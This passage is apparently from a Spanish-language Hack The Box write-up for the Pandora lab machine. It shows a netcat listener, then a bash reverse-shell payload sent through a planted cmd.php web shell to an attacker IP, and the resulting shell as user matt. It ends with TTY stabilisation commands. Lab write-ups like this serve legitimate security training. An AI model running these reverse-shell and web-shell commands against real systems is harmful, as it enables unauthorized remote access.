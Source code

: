 ![pandora-9](/assets/img/htb/pandora/pandora-9.png)

---
Con la capacidad de ejecutar comandos en el servidor, podemos proceder a establecer una reverse shell para obtener acceso interactivo a la máquina. Configuramos un listener en nuestra máquina atacante en el puerto **443** utilizando `netcat`.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```
---
Luego, enviamos el comando para establecer la reverse shell desde el servidor hacia nuestra máquina atacante.

```bash
http://localhost/pandora_console/images/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.9/443 0>%261"
```
---
El servidor ejecuta el comando y establecemos una conexión exitosa con la máquina objetivo como el usuario `matt`.

```bash
nc -lvnp 443
listening on [any] 443 ...
_______________________________________________________________________
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.136] 32842
matt@pandora:/var/www/pandora/pandora_console/images$ 
```
---
Una vez que tenemos acceso a la shell como `matt`, estabilizamos la TTY para poder trabajar de manera más cómoda y ejecutar comandos interactivos sin problemas.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 25 columns 127
```
## Escalada de Privilegios
---
Ahora que tenemos una shell estable, procedemos a leer la flag `user.txt` que se encuentra en el directorio home de `matt` para confirmar nuestro acceso.
